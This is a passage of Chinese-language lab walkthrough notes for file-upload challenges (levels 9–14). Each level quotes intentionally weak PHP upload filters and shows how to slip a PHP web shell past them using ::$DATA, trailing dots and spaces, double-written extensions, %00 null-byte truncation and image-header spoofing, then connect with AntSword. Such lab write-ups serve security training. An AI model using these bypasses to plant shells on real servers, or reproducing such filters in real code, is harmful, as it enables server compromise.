	少了个::DATA数据流的限制，可以尝试用这个绕过
==知识点扩充：==
**::DATA

ADS** = **Alternate Data Streams**（备用数据流）

- **微软官方中文翻译**：备用数据流、替代数据流

- **NTFS 文件系统规范中的术语**：`Named Data Stream`（命名数据流）

“通俗一点说，就像Windows系统里一个文件可以附带一段隐藏的、正常看不到的内容，而 `::$DATA` 这个写法就是把这种特性用在了URL/文件上传中，用来绕过检测或隐藏恶意内容。”

步骤：
	1、上传shell.php文件
	2、抓包拦截
		修改信息如下：

	3、蚂蚁剑链接


# 关卡10
关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
	有点麻烦，去空格，去.，转小写
	但是都是过滤一次，那我们就用.+空格+.绕过
步骤：
	1、上传shell.php
	2、抓包拦截
		修改信息如下：

	3、蚂蚁剑链接


# 关卡11
关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess","ini");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

	分析：
	去空，去php后缀，这个很重要，似乎很难搞。。。
	但是可以尝试双写绕过，双写的时候不要写成.phpphp这样，都会被过滤掉的
步骤：
	1、上传shell.php
	2、抓包拦截
		修改信息如下：
		双写名称shell.pphphp

	3、蚂蚁剑链接

# 关卡12
关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

	分析：
	只允许使用jpg,png,gif这些图片格式的进行上传，白名单处理。然后用的是GET请求进行任意位置进行上传
	绕过思路用0x00进行截断，或者%00

==知识点扩充：==
	ASCII 空子节
	%00
	 0x00
**空字节（`%00` / `0x00`）在旧版 PHP 中被视为字符串结束标志，攻击者用它来让系统忽略 `%00` 后面的内容，从而伪造文件路径或扩展名。**

	前置条件：
	php版本必须是php5.3.4之前的ts版本的，nts版本的会报错上传不上去。
	ts版本的php.ini文件的配置改为：
	magic_quotes_gpc = Off
	
步骤：
	1、上传shell.php文件
		我的话直接是用这一个，按照限制在bp里面修改，方便一点
	2、抓包拦截
		修改信息如下：
		在GET请求处写上要保存的一句话木马名称，在后面写上%00截断
		在下面的名称上写上png或者其他jpg或者gif文件的后缀，点击发送即可

	3、蚂蚁剑链接


# 关卡13
关卡代码限制构造
```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传失败";
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

	分析：
	进阶版截断题，这次用的是POST请求了。
	同理，这次把参数写在请求体里面。
步骤：
	1、上传shell.php
	2、抓包拦截
		修改信息如下：

	3、蚂蚁剑链接

# 关卡14
从这里开始，上传的就是图片了，用图片做！！！
不是为了通关而去通关

关卡代码限制构造
```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

	分析：
	检查文件头部两个字节的信息，可以用这个绕过
步骤：
	1、上传shell.png（）
	2、抓包拦截
		修改信息如下：
		